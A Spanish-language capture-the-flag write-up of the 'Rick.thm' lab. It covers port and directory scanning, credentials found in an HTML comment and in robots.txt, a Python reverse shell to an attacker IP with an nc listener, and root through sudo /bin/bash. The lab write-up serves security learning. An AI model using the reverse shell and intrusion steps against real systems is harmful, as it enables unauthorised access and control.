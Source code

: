 # Rick.thm

## Introducción

Este informe detalla el proceso de enumeración y análisis inicial realizado sobre el host `rick.thm` (10.10.229.244) utilizando la herramienta Nmap. Se describen los hallazgos relevantes, los servicios expuestos, así como los pasos siguientes para la explotación y escalada de privilegios.

## 1. Escaneo de Puertos con Nmap

El primer paso fue realizar un escaneo de puertos con Nmap utilizando las opciones `-A -sT`, que permiten la detección avanzada de servicios y sistemas operativos. Se guardó la salida en un archivo `resultado.txt` para su posterior análisis.

### Comando utilizado:

```bash
nmap -A -sT rick.thm -oN resultado.txt
```

### Resultados obtenidos:

```markdown
Host: rick.thm (10.10.229.244)
Estado: Activo (latencia 0.18s)
Puertos abiertos:
- **22/tcp**: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.11)
- **80/tcp**: Apache HTTP 2.4.41 (Ubuntu)
```

## 2. Análisis del Código Fuente del Sitio Web

Se encontró un comentario en el código fuente con el nombre de usuario:

![](pickle%20rick1.png)

```html
<!-- Username: R1ckRul3s -->
```

## 3. Exploración de Directorios con Gobuster

Se utilizó **Gobuster** para la búsqueda de directorios ocultos y archivos accesibles:

```bash
gobuster dir -u http://rick.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

### Resultados encontrados:

```markdown
/login.php            (Status: 200)
/index.html           (Status: 200)
/assets               (Status: 301)
/portal.php           (Status: 302) -> /login.php
/robots.txt           (Status: 200)
```

En `robots.txt`, se encontró la siguiente información:

```plaintext
WubbaLubbaDubDub
```

## 4. Autenticación en el Portal Web

Se intentó el acceso en `/login.php` con las credenciales:

- **Usuario:** `R1ckRul3s`
- **Contraseña:** `WubbaLubbaDubDub`

El acceso fue exitoso y se redirigió al portal `/portal.php`.

## 5. Descubrimiento de Archivos Mediante Comandos

![](pickle%20rick2.png)

Dentro del portal, en la pestaña **Commands**, se ejecutó `ls`, obteniendo:

```plaintext
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Dado que otros archivos estaban bloqueados, se intentó acceder directamente a `http://rick.thm/Sup3rS3cretPickl3Ingred.txt`, lo cual permitió encontrar el primer ingrediente.

## 6. Creación de una Consola de Conexión Remota

Para obtener acceso interactivo al sistema, se estableció una **reverse shell** utilizando Python.

### Comando utilizado en el servidor (Rick.thm):

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.17.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Configuración en la máquina atacante:

```bash
nc -lvnp 4444
```

Tras la ejecución de estos comandos, se logró acceso remoto al sistema.

## 7. Obtención de Información Clave

Al explorar el sistema, en la ruta `/home/rick/`, se encontró un archivo llamado **"second ingredients"**. Al visualizar su contenido, se obtuvo la clave secreta:

```plaintext
********
```

## 8. Escalada de Privilegios

Se detectó que el usuario podía ejecutar comandos con `sudo`, lo que permitió escalar privilegios con el siguiente comando:

```bash
sudo /bin/bash
```

Una vez en modo root, se accedió al archivo en `/root/3rd.txt`, obteniendo el último ingrediente:

```plaintext
**********
```

## 9. Conclusión y Pasos Finales

- Se logró acceso inicial al sistema mediante credenciales obtenidas en el código fuente.
- Se identificaron archivos clave en el sistema y se accedió a información sensible.
- Se escaló privilegios con `sudo` y se accedió al último ingrediente.
